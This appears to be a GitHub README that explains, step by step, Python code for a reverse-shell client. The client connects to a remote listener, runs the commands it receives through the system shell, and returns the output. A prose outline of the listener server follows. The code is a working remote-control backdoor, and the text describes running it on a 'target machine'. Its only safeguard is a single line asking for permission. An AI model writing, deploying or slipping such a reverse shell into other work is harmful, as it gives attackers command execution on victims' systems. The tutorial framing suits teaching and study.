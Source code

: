 # Reverse-Shell
Implementation of a reverse shell using socket programming to establish a client-server architecture for remote command execution. The server sends commands, and the client executes them and returns the output.


## 1. Import Required Libraries
```
import socket
import subprocess
```
* `socket`: Provides the tools to create network connections for communication between the client and server.
* `subprocess`: Allows the execution of shell commands on the client machine.


## 2. Define the Reverse Shell Function
```
def reverse_shell(host, port):
```
This function takes two arguments:
    * `host`: The IP address of the server to connect to.
    * `port`: The port on the server where the connection will be established.


## 3. Create and Connect a Socket
```
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))
```
* `socket.socket`: Creates a socket object for network communication. The parameters `AF_INET` and `SOCK_STREAM` indicate that:
    * `AF_INET`: IPv4 addressing.
    * `SOCK_STREAM`: TCP protocol (reliable, connection-based communication).
* `s.connect((host, port))`: Initiates a connection to the specified server (`host`) and port.


## 4. Communication Loop
```
while True:
```
The client enters a loop where it continuously:
1. **Receives commands** from the server.
2. **Executes commands** on the local machine.
3. **Sends the output** of the commands back to the server.


5. Receive Commands from the Server
```
command = s.recv(1024).decode()
if command.lower() == "exit":
    break
```
* `s.recv(1024)`: Waits for a command from the server. The `1024` specifies the maximum size (in bytes) of the data to receive.
* `.decode()`: Converts the received data (bytes) into a string.
If the received command is `"exit"`, the loop breaks, and the connection is terminated.


## 6. Execute Commands Locally
```
try:
    output = subprocess.check_output(command, shell=True, stderr=subprocess.STDOUT)
except subprocess.CalledProcessError as e:
    output = str(e).encode()
```
* `subprocess.check_output`: Executes the received command using the system shell.
    * `shell=True`: Executes the command through the shell.
    * `stderr=subprocess.STDOUT`: Redirects error output to standard output.
If the command execution fails (e.g., invalid command), a `CalledProcessError` is raised. The error details are converted to bytes using `.encode()` and stored in `output`.


## 7. Send Command Output to the Server
```
s.send(output)
```
* The result of the command execution (`output`) is sent back to the server using `s.send()`.


## 8. Exception Handling
```
except Exception as e:
    print(f"Error: {e}")
```
* Catches any runtime errors (e.g., network failure) and prints the error message for debugging.


## 9. Cleanup
```
finally:
    s.close()
```
* Ensures the socket is properly closed to free system resources, even if an error occurs.


## 10. Configure and Run the Reverse Shell
```
reverse_shell("127.0.0.1", 4444)
```
* `127.0.0.1`: Localhost (loopback address) for testing. Replace with the server's actual IP address for remote connections.
* `4444`: Port number to connect to. This must match the listening port on the server.

How It Works:
1. **Server Listening**: The server (not shown in this code) waits for incoming connections on a specified port.
2. **Client Connection**: The client (this script) initiates a connection to the server.
3. **Command Execution**: The server sends commands to the client, which executes them using the system shell.
4. **Result Return**: The client sends the output (or error message) back to the server.



# Server Listening Code (for Reverse Shell)

summary of how the server listening code would typically work, along with an explanation of its role in the reverse shell setup.

## How the Server Works:

1. ### Create and Configure the Server Socket:
    * `server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)`: Creates a socket using IPv4 addressing and TCP.
    * `server.bind((host, port))`: Binds the server socket to the specified host (IP address) and port.
    * `server.listen(1)`: Starts listening for incoming client connections. The 1 indicates the maximum number of queued connections.

2. ### Wait for Client Connection:
    * `conn, addr = server.accept()`: This method waits for a client to connect. Once the client connects, it returns a new socket (`conn`) for communication and the client's address (`addr`).

3. ### Command Input Loop:
    * The server enters a loop where it waits for the user to type a command (`command = input("Shell> ")`).
    * **If the command** is `exit`: The server sends this command to the client (`conn.send(command.encode())`), which tells the client to terminate the connection. The server then exits the loop and closes the connection.
    * **Otherwise**: The server sends the command to the connected client (`conn.send(command.encode())`).

4. ### Receive and Display Output from Client:
    * After sending a command, the server waits for the client to send back the result of the command using `conn.recv(4096)`.
    * The server then prints the result (`print(response)`), showing the command output or error received from the client.

5. ### Exception Handling and Cleanup:
    * The `try-except` block ensures that if any errors occur during communication (e.g., network failure), they are caught and printed.
    * The finally block ensures that the server socket is closed when the program exits.


## How to Use the Server with the Reverse Shell Client:

1. **Run the Server**: The server listens for incoming connections on the specified IP address (`0.0.0.0`) and port (`4444`). Replace `0.0.0.0` with the server’s actual IP address if connecting remotely.
2. **Run the Client (Reverse Shell)** : The client script (`reverse_shell` code) should be executed on the target machine (the client). It will automatically connect to the server at the specified IP address and port.
3. **Command Interaction**: Once the client connects, the server can send commands (like `ls`, `dir`, or `whoami`) to the client. The client executes the commands and sends back the output, which the server displays.
4. **Exit**: To terminate the connection, the server simply types `exit`, which sends the `exit` command to the client and closes the connection.


## Important Notes:
* **Security**: Reverse shells can be used for malicious purposes. Always ensure you have explicit permission when running this type of script.
* **Network Configuration**: Make sure the firewall or any network security settings on both the client and server machines allow the communication on the specified port (`4444` in this case).
